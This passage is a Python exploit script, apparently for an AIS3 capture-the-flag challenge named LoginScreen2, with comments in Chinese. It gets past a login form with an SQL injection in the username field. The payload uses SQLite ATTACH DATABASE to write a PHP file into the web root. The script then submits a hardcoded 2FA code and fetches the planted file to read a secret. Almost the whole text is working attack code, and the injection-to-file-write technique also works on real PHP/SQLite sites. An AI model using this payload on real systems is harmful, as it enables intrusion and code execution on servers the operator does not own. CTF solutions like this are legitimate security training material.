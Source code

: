 ```py
    return None
def get_flag():
    print("\n=== 獲取 FLAG2 ===")
    rce_payload = "admin'; ATTACH DATABASE '/var/www/html/flag.php' AS flag; CREATE TABLE flag.content(data BLOB); INSERT INTO flag.content VALUES ('<?php echo \"FLAG2: \" . getenv(\"FLAG2\"); ?>'); --"
    session = requests.Session()
    print("[+] 訪問首頁...")
    response = session.get(f"{BASE_URL}/")
    print("[+] 執行SQL注入payload...")
    print(f"[*] Payload: {rce_payload[:80]}...")
    login_data = {
        'username': rce_payload,
        'password': 'admin'
    }
    response = session.post(f"{BASE_URL}/index.php", data=login_data)
    if "2FA" not in response.text:
        print("[-] SQL注入失敗")
        return None
    print("[+] SQL注入成功，到達2FA頁面")
    print("[+] 執行2FA驗證以觸發SQL執行...")
    fa_data = {'code': '51756447753485459839'}
    fa_response = session.post(f"{BASE_URL}/2fa.php", data=fa_data)
    if "Welcome" not in fa_response.text:
        print("[-] 2FA失敗，但檔案可能已經創建")
    else:
        print("[+] SQL執行成功")
    print("[+] 訪問創建的檔案 /flag.php...")
    time.sleep(1)
    try:
        file_response = requests.get(f"{BASE_URL}/flag.php")
        if file_response.status_code != 200:
            print("[-] 檔案不存在")
            return None
        print(f"[+] 檔案存在，大小: {len(file_response.text)} bytes")
        if "AIS3{" in file_response.text:
            flag_match = re.search(r'(AIS3\{[^}]+\})', file_response.text)
            if flag_match:
                flag = flag_match.group(1)
                print(f"[*] FLAG2: {flag}")
                return flag
        print("[-] 檔案中未找到FLAG2")
        print(f"[*] 檔案內容預覽: {file_response.text[:200]}")
        return None
    except Exception as e:
        print(f"[-] 訪問檔案失敗: {e}")
        return None
def main():
    print("LoginScreen2 CTF Challenge - Complete Exploit")
    print("=" * 50)
    flag1 = get_flag1()
    flag = get_flag()
    print("\n" + "=" * 50)
    print("攻擊結果:")
    if flag1:
        print(f"✅ FLAG1: {flag1}")
    else:
        print("❌ FLAG1: 獲取失敗")

    if flag:
        print(f"✅ FLAG2: {flag}")
    else:
        print("❌ FLAG2: 獲取失敗")
```